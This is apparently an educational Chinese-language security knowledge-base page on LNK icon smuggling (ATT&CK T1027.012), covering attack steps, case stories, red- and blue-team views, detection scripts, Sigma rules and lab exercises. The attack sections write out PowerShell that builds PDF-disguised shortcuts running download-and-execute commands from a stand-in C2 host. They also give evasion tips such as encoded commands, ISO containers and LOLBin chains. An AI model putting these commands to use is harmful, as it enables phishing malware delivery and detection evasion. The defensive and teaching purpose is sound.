


# LNK 图标走私 (T1027.012)

## 一句话通俗理解

> **把恶意命令藏在一个看起来像 PDF 图标的快捷方式里——双击后以为打开的是文档，实际执行的是攻击者指定的命令**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 在 .lnk 快捷方式中隐藏 payload，通过伪造图标与目标路径诱导用户执行，T1027 子技术 |
| 为什么危险？ | .lnk 扩展名默认隐藏，图标可任意伪造，命令行可携带任意参数；用户难以视觉识别真伪 |
| 你的第一步防御 | 邮件网关拦截所有 .lnk 附件；在文件资源管理器中显示已知文件扩展名 |
| 如果只做一件事 | 部署 YARA 规则扫描所有 .lnk 文件的 TargetPath 与 IconLocation 字段，匹配可疑命令 |

## 难度等级

⭐⭐ 中级 - 需理解 LNK 文件格式与 Windows Shell 执行机制

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows Shell LNK 文件格式（MS-SHLLINK 规范）
- [ ] 文件扩展名隐藏机制与图标显示规则
- [ ] 混淆文件或信息（T1027）的原理
- [ ] PowerShell 与 cmd 命令行参数处理

## 技术描述

**LNK 图标走私**（T1027.012）是 **混淆文件或信息**（T1027）的一个具体变体，属于 **隐蔽** 阶段的攻击技术。

攻击者构造一个 Windows 快捷方式文件（.lnk），通过设置伪造的图标资源（如 PDF/Word 图标）、目标路径指向恶意命令（如 `powershell.exe -w hidden -c IEX ...`）、隐藏命令行窗口等手段，诱导用户双击执行。LNK 文件本质是包含 Shell 链接结构的二进制文件，可携带任意命令行参数与环境变量，但默认 Windows 资源管理器隐藏其 `.lnk` 扩展名，只显示图标。

### 具体怎么理解？

想象一个诈骗犯伪造了一张"银行VIP卡"——卡面印着花旗银行的 logo（伪造图标），但磁条里写的是诈骗犯的账号（恶意命令）。受害者拿到卡片以为是自己银行发的，刷卡时钱却进了诈骗犯口袋。Windows 资源管理器就像是不仔细看磁条的刷卡机——它只看卡面（图标），不检查磁条内容（命令行）。

技术上有三种主要走私方式：

1. **图标伪造**：将 .lnk 的 `IconLocation` 指向系统自带的 PDF/Word/Excel 图标资源（如 `%SystemRoot%\Installer\{...}\wordicon.exe,0`），用户看到的是文档图标，实际目标指向 `cmd.exe /c payload`
2. **TargetPath 命令注入**：LNK 的 `TargetPath` 字段不限于可执行文件路径，可以是 `powershell.exe`、`cmd.exe`、`wscript.exe` 等系统解释器，`Arguments` 字段携带完整恶意命令
3. **环境变量与相对路径**：使用 `%TEMP%`、`%APPDATA%`、`.\` 等相对路径引用 payload，绕过绝对路径检测；配合 `ctrl.exe`、`forfiles.exe` 等 LOLBins 间接执行

### 为什么有效？

这种技术之所以有效，是因为：

1. **扩展名隐藏**：Windows 默认隐藏已知文件扩展名，`invoice.pdf.lnk` 显示为 `invoice.pdf`（带 PDF 图标），用户无法视觉识别
2. **图标可任意伪造**：LNK 的 `IconLocation` 字段可指向任意 PE 文件的图标资源，攻击者可借用任何合法程序的图标
3. **命令行不显示**：鼠标悬停在 .lnk 上时，提示框只显示"快捷方式"字样，不显示 TargetPath 与 Arguments
4. **绕过邮件网关扩展名黑名单**：部分邮件网关仅基于扩展名拦截 .exe/.bat/.vbs，但允许 .lnk 通过
5. **携带任意 payload**：通过 `Arguments` 字段可携带 PowerShell 一行命令、`mshta http://c2/evil.hta`、`rundll32` 调用等

## 真型场景

攻击者在 **隐蔽** 阶段使用 LNK 图标走私 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **构造恶意 .lnk**：PowerShell `$WshShell = New-Object -ComObject WScript.Shell; $shortcut = $WshShell.CreateShortcut("invoice.lnk")` 创建快捷方式对象
2. **设置 PDF 图标**：`$shortcut.IconLocation = "C:\Program Files\Adobe\Acrobat\Acrobat.exe,0"`，借用 Acrobat PDF 图标
3. **TargetPath 指向 PowerShell**：`$shortcut.TargetPath = "powershell.exe"`
4. **Arguments 携带命令**：`$shortcut.Arguments = "-w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')"`
5. **重命名 invoice.pdf.lnk**：配合扩展名隐藏，显示为 `invoice.pdf`（PDF 图标）
6. **钓鱼邮件投递**：作为附件发送，邮件网关若未拦截 .lnk 则直接送达
7. **用户双击**：用户看到 PDF 图标，以为打开文档
8. **实际执行 PowerShell**：Windows Shell 解析 LNK，启动 `powershell.exe -w hidden -c IEX ...`
9. **下载并执行 beacon**：PowerShell 从 C2 下载 beacon，反射式加载到内存

## 攻击流程

```
创建LNK对象 --> 设置图标与目标 --> 重命名隐藏扩展 --> 邮件投递 --> 用户双击 --> PowerShell执行
```



**步骤详解：**

1. **PowerShell 构造 LNK**：通过 `WScript.Shell` COM 对象的 `CreateShortcut` 方法创建 LNK，设置 `TargetPath`、`Arguments`、`IconLocation`、`WindowStyle`、`WorkingDirectory` 字段
2. **设置图标**：`IconLocation` 指向系统自带 PDF 图标资源——`C:\Program Files\Adobe\Acrobat\Acrobat.exe,0`、`%SystemRoot%\System32\shell32.dll,69`
3. **TargetPath 指向解释器**：可以是 `powershell.exe`、`cmd.exe`、`wscript.exe`、`mshta.exe`、`rundll32.exe` 等 LOLBins；`WorkingDirectory` 设为 `%TEMP%` 隐藏执行位置
4. **Arguments 携带命令**：可携带完整 PowerShell 命令、`mshta http://` URL、`rundll32` 调用；常用 `-w hidden` 隐藏窗口、`-nop` 跳过配置文件、`-enc` Base64 编码命令
5. **邮件投递**：作为附件发送，配合社工文案（"发票"、"合同"、"对账单"）；部分邮件网关不深度解析 .lnk 内容
6. **用户双击执行**：Windows Shell 解析 LNK，根据 `TargetPath` 启动进程，传入 `Arguments`；`WindowStyle = 7`（最小化）或 `powershell -w hidden` 隐藏窗口

## 真实案例

### 案例1：FIN7/TA577 伪装 PDF 钓鱼（2024-2025）

攻击者发送伪装成"采购对账单"的钓鱼邮件，附件为 `PO_2025.pdf.lnk`。LNK 图标借用 Acrobat PDF 图标，TargetPath 指向 `powershell.exe`，Arguments 为 `-w hidden -nop -enc <Base64编码的下载命令>`。受害者双击后以为打开 PDF，PowerShell 隐藏窗口从 C2 下载 Cobalt Strike beacon 反射式加载到内存。多个目标组织财务人员中招，攻击者横向移动后部署勒索软件，造成业务中断与数据泄露。参考：[MITRE ATT&CK T1027.012](https://attack.mitre.org/techniques/T1027/012/)

### 案例2：红队 LOLBin 链式调用（2025）

红队在授权评估中用 Python `pylnk3` 库批量生成伪装 LNK，配合 USB 投放社工。LNK 借用 Word 图标，TargetPath 为 `cmd.exe /c forfiles /p %SystemRoot%\System32 /m cmd.exe /c "powershell -w hidden -c IEX ..."`，利用 `forfiles` LOLBin 间接执行 PowerShell 绕过 EDR 对 cmd.exe 直接调用 powershell.exe 的检测。验证了"LOLBin 链式调用 + LNK 伪装"的检测盲区，推动部署 Sysmon EID 1 监控 `forfiles.exe` 子进程创建。参考：[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解原理**：掌握 MS-SHLLINK 规范、Windows Shell 解析流程、LOLBin 链式调用模式，理解 EDR 对 LNK 文件的检测能力
2. **环境适配**：目标邮件网关拦截 .lnk 则将 LNK 嵌入 ISO/IMG 镜像；端点 EDR 监控 cmd→powershell 则改用 `forfiles`/`syncappvpublishingserver` 等冷门 LOLBin
3. **组合使用**：LNK + 反射式加载 = 无文件攻击；LNK + ISO 容器 = 绕过 MOTW；LNK + LOLBin = 绕过进程链检测
4. **隐蔽性考虑**：`Arguments` 使用 `-enc` Base64 编码避免明文命令；`IconLocation` 指向真实存在的图标资源；`WindowStyle` 设为 7（最小化）

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| PowerShell | 通过 WScript.Shell COM 创建 LNK | Windows | 内置 |
| pylnk3 | Python LNK 文件生成与解析 | 跨平台 | [pylnk3](https://github.com/strayge/pylnk3) |
| lnk_parser.py | LNK 文件解析取证 | Python | [lnk_parser](https://github.com/Matthias-M/lnk-parser) |
| Metasploit msfvenom | 生成 LNK payload | 跨平台 | [Metasploit](https://www.metasploit.com/) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现

## 蓝队视角

### 检测要点

1. **系统日志监控**：Sysmon EID 1（进程创建）监控 `powershell.exe`、`cmd.exe`、`wscript.exe`、`mshta.exe`、`forfiles.exe` 等解释器的父进程为 `explorer.exe` 且命令行包含 `-enc`、`-w hidden`、`IEX`、`DownloadString` 等可疑参数
2. **异常行为检测**：用户双击"PDF"后没有 PDF 进程启动，反而启动了 PowerShell/cmd；`explorer.exe` 启动子进程的命令行包含 `%TEMP%`、`%APPDATA%` 等环境变量
3. **工具特征识别**：监控 `pylnk3`、`lnk_parser` 等工具在非开发环境的异常使用；批量生成 LNK 的 PowerShell 脚本特征

### 监控建议

- 部署 Sysmon 配置：监控可疑解释器的子进程创建，特别关注 `explorer.exe` 作为父进程
- 邮件网关深度解析 .lnk 附件：提取 `TargetPath` 与 `Arguments` 字段，匹配可疑命令模式
- 终端用户培训：识别"扩展名伪装"的钓鱼附件，不要双击来源不明的"文档"

**用人话说：** 正常人双击一个"PDF"，应该弹出 Adobe Reader 打开文档。如果双击后什么都没发生（或闪过黑窗），但任务管理器里多了个 `powershell.exe`——这绝对是 LNK 图标走私。

## 避坑指南

常见混淆误区：

1. **显示扩展名≠绝对安全**：即使显示扩展名，用户也可能因图标误导而双击；且部分攻击者利用 RTL 字符反转（如 `pdf.txt.lnk` 显示为 `lnk.txt.fdp`）进一步混淆
2. **拦截 .lnk 附件≠万无一失**：攻击者可将 LNK 嵌入 ISO/IMG/RAR 容器，绕过邮件网关的扩展名检查
3. **只监控 powershell.exe 子进程不够**：攻击者可改用 `forfiles`、`syncappvpublishingserver`、`pcalua` 等 LOLBin 间接调用，绕过对 `cmd.exe → powershell.exe` 链路的检测
4. **LNK 文件本身可携带 payload**：LNK 可携带超大 `Arguments` 字段（嵌入完整 PowerShell 脚本），可作为独立的 payload 容器

## 检测建议

### 检测思路

检测 LNK 图标走私的关键是"解析 LNK 内部字段 + 监控解释器异常调用"。以下是三个层面的检测方法：

### 网络层检测

**方法**：在邮件网关深度解析 .lnk 附件，提取 TargetPath 与 Arguments 字段

```bash
# 邮件网关集成示例：lnk_scan.sh 解析 LNK 附件
for attachment in $email_attachments; do
    file_type=$(file -b "$attachment")
    if [[ "$file_type" == *"Windows Shortcut"* ]]; then
        python3 /opt/lnk_parser.py "$attachment" > /tmp/lnk_dump.txt
        target_path=$(grep -oP "Target Path: \K.*" /tmp/lnk_dump.txt)
        arguments=$(grep -oP "Arguments: \K.*" /tmp/lnk_dump.txt)
        if echo "$target_path $arguments" | grep -qiE "(powershell|cmd|wscript|mshta|rundll32|forfiles).*(IEX|DownloadString|-enc|-w hidden|http)"; then
            echo "REJECT: LNK 携带可疑命令 - $target_path $arguments" >&2; exit 67
        fi
    fi
done
exit 0
```

### 主机层检测

**Windows事件ID**：
- Sysmon EID 1：进程创建，监控 explorer.exe 启动解释器子进程
- Sysmon EID 11：文件创建，监控 .lnk 文件在临时目录、下载目录的创建
- 事件ID 4688：进程创建（监控可疑命令行）

**Sysmon配置要点**：监控 ParentImage endswith `explorer.exe` 且 Image endswith `powershell.exe|cmd.exe|wscript.exe|mshta.exe|rundll32.exe|forfiles.exe`；监控 TargetFilename endswith `.lnk` 且 contains `\Temp\`。用 ProcessCreate+FileCreate 两个 RuleGroup 覆盖。

**用人话说：** 这条规则监控"用户在文件管理器里双击启动了 PowerShell/cmd"——正常用户不会从 explorer.exe 直接启动这些解释器，基本只可能来自 LNK 快捷方式或漏洞利用。

### Sigma规则（解释器异常子进程）

```yaml
title: 检测LNK图标走私 - 解释器异常子进程
logsource:
    category: process_creation
    product: windows
detection:
    selection_parent:
        ParentImage|endswith: '\explorer.exe'
    selection_suspicious:
        Image|endswith: ['\powershell.exe','\cmd.exe','\wscript.exe','\mshta.exe','\forfiles.exe']
    filter_legitimate:
        CommandLine|contains: ['SCCM','\\Windows\\System32\\']
    condition: selection_parent and selection_suspicious and not filter_legitimate
level: high
tags: [attack.t1027, attack.t1027.012, attack.defense_evasion, attack.execution]
```

### 应用层检测

**Sigma规则（PowerShell -enc 参数检测）**：

```yaml
title: 检测LNK图标走私 - PowerShell -enc 参数
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith: '\explorer.exe'
        Image|endswith: '\powershell.exe'
        CommandLine|contains: ['-enc ','-EncodedCommand',' -w hidden',' -nop -c']
    condition: selection
level: critical
falsepositives: [罕见的合法管理脚本（需白名单）]
tags: [attack.t1027, attack.t1027.012, attack.execution]
```

## 缓解措施

### 优先级1：关键措施

**邮件网关拦截 .lnk 附件 + 显示文件扩展名**

```bash
# Postfix header_checks 拦截 .lnk 附件
/^Content-Type:.*name=.*\.lnk/ REJECT 拒绝LNK附件
/^Content-Disposition:.*filename=.*\.lnk/ REJECT 拒绝LNK附件

# Windows 注册表：显示所有文件扩展名
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v HideFileExt /t REG_DWORD /d 0 /f
```

### 优先级2：重要措施

**加强监控**：部署 Sysmon 监控 explorer.exe 启动解释器子进程；配置 ASR 规则阻止 Office 程序创建子进程；启用 SmartScreen 与 MOTW

### 优先级3：建议措施

**用户安全培训**：教育用户识别"扩展名伪装"的钓鱼附件；不双击来源不明的"文档"；养成右键"属性"查看文件真实类型的习惯

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 LNK 图标走私 的视觉欺骗原理

**步骤**：
1. 在隔离 Windows 虚拟机中打开 PowerShell
2. 创建一个无害的 LNK 文件，伪装成 PDF：
   ```powershell
   $ws = New-Object -ComObject WScript.Shell
   $sc = $ws.CreateShortcut("$env:USERPROFILE\Desktop\test.pdf.lnk")
   $sc.TargetPath = "powershell.exe"
   $sc.Arguments = "-NoExit -c Write-Host 'You have been tricked!'"
   $sc.IconLocation = "C:\Program Files\Adobe\Acrobat\Acrobat.exe,0"
   $sc.WindowStyle = 7
   $sc.Save()
   ```
3. 关闭 PowerShell，到桌面查看 `test.pdf.lnk`（显示 PDF 图标，扩展名隐藏）
4. 双击查看实际效果（弹出 PowerShell 窗口而非 PDF 阅读器）
5. 右键→属性，查看"目标"字段，理解 LNK 内部结构
6. 清理：删除 `test.pdf.lnk`

**学习要点**：直观感受"图标欺骗 + 扩展名隐藏"的视觉混淆效果

### 实验2：实际操作（中级）

**目标**：掌握用 Python 批量解析 LNK 文件并提取可疑字段

**步骤**：
1. 安装 `pylnk3`：`pip install pylnk3`
2. 编写 LNK 解析脚本 `lnk_audit.py`，核心逻辑：用 `pylnk3.parse(path)` 解析，正则 `(powershell|cmd|wscript|mshta|rundll32|forfiles).*(IEX|DownloadString|-enc|http)` 匹配 `lnk.path + lnk.arguments`，命中则打印 `[ALERT]` 与 Icon 字段
3. 在隔离环境中扫描测试 LNK 文件
4. 配置 Sysmon EID 1 监控规则，验证双击 LNK 时的告警

**学习要点**：掌握 LNK 内部字段解析方法，理解批量审计流程

### 实验3：防御验证（高级）

**目标**：验证 LOLBin 链式调用对 EDR 的绕过效果

**步骤**：
1. 构造一个使用 `forfiles` LOLBin 的 LNK：`TargetPath=C:\Windows\System32\forfiles.exe`，`Arguments=/p C:\Windows\System32 /m cmd.exe /c "powershell -w hidden -c IEX(...)"`，`IconLocation=shell32.dll,70`
2. 在测试虚拟机中部署 Sysmon EID 1 监控
3. 双击 LNK，观察进程链：`explorer.exe → forfiles.exe → cmd.exe → powershell.exe`
4. 验证 EDR 是否检测到 `cmd.exe → powershell.exe` 链路（基础检测点）
5. 验证 EDR 是否检测到 `forfiles.exe` 启动子进程（进阶检测点）
6. 优化 Sigma 规则覆盖 LOLBin 链式调用

**学习要点**：理解 LOLBin 链式调用对检测的绕过挑战，掌握进程链关联检测策略

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **LNK 图标走私** | T1027.012，在快捷方式中隐藏恶意命令并伪造图标 |
| **LNK 文件** | Windows 快捷方式文件，包含 Shell 链接结构 |
| **MS-SHLLINK** | 微软定义的 LNK 文件格式规范 |
| **LOLBin** | Living-off-the-Land Binary，系统自带的可被滥用的合法程序 |
| **MOTW** | Mark-of-the-Web，Windows 对互联网下载文件的标记 |
| **TargetPath** | LNK 文件中目标程序路径字段 |
| **Arguments** | LNK 文件中传递给目标程序的命令行参数字段 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1027 - 混淆文件或信息](../T1027-Obfuscated-Files-or-Information.md)

## 参考资料

### 📚 官方文档

- [MITRE ATT&CK - LNK Icon Smuggling (T1027.012)](https://attack.mitre.org/techniques/T1027/012/)
- [MS-SHLLINK 规范](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink)
- [LOLBAS 项目 - LOLBin 列表](https://lolbas-project.github.io/)

### 📰 安全报告

- [Mandiant - FIN7 攻击分析](https://www.mandiant.com/resources/blog) - FIN7 大量使用 LNK 钓鱼
- [Palo Alto Unit 42 - LNK 恶意软件趋势](https://unit42.paloaltonetworks.com/) - LNK 攻击趋势分析

### 🔧 工具与资源

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
- [pylnk3](https://github.com/strayge/pylnk3) - Python LNK 文件操作库
- [lnk_parser](https://github.com/Matthias-M/lnk-parser) - LNK 文件解析工具
- [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) - 系统监控工具

### 📚 学习资料

- [Practical Malware Analysis 逆向工程实战](https://nostarch.com/malware) - LNK 恶意软件分析章节
- [SANS - LNK Forensics](https://www.sans.org/white-papers/) - LNK 取证白皮书
